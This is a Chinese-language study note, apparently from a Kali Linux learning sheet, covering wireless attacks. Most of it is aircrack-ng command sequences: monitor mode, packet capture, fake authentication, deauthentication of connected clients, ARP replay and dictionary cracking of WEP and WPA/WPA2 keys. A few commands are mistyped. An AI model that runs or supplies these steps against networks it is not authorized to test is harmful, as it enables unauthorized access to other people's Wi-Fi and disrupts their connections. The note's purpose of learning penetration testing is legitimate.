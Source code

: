 

### 6.无线攻击

> https://wizardforcel.gitbooks.io/daxueba-kali-linux-tutorial/content/50.html
>
> 蓝牙工具集、其他无线工具、软件无线电、无线工具集、RFID/NFC工具集

#### 6.1无线网络嗅探工具Kismet

```
kismet
127.0.0.1:2501
```



#### 6.2使用Aircrack-ng破解

> 基于破解802.11协议，主要使用fms攻击和korek攻击
>

##### 6.2.1 WEP

```
airmon-ng check kill   
ifconfig wlan0 down
iwconfig wlan0 mode monitor /(开启监听模式)
ifconfig wlan0 up  

CH：信道号	ENC：加密算法体系	CIPHER:加密算法	AUTH:认证协议	
airodump-ng wlan0  /定位附件wifi  -c指定频道 -w指定文件名 -bssid指定id
aireplay-ng -1 0 -a [BSSID] -h [our Chosen MAC address] -e [ESSID] [Interface]
aireplay-ng -dauth 1 -a [BSSID] -c [our Chosen MAC address] [Interface]

aireplay-ng 3 -b [BSSID] -h [MAC address] [Interface]	/发送无线流量以至于捕获
aircrack-ng xx-01.cap -w /root/下载/passwd.txt 

ifconfig wlan0 down
iwconfig wlan0 mode manager
ifconfig wlan0 up  
systemctl net restart	/重新开启服务
连接wifi
```

##### 6.2.2 WPA和WPA2

```
airodump-ng wlan0	/找wifi

airodump-ng -c ch -b mac -w filename wlan0  /-w接保存cap文档，-b接目标mac，ch是频道，捕获目标
获得目标已连接的mac后，另开窗口
aireplay-ng -0 频道 -a 目标 -c 目标已连接的mac wlan0 /进行Deauth攻击，取消工作站认证，--deauth同
aircrack-ng cap地址 -w 密码本地址 	/暴力破解，cap地址默认为/root
```


[nessus学习地址]: https://wizardforcel.gitbooks.io/daxueba-kali-linux-tutorial/content/27.html
[openvas学习]: https://wizardforcel.gitbooks.io/daxueba-kali-linux-tutorial/content/28.html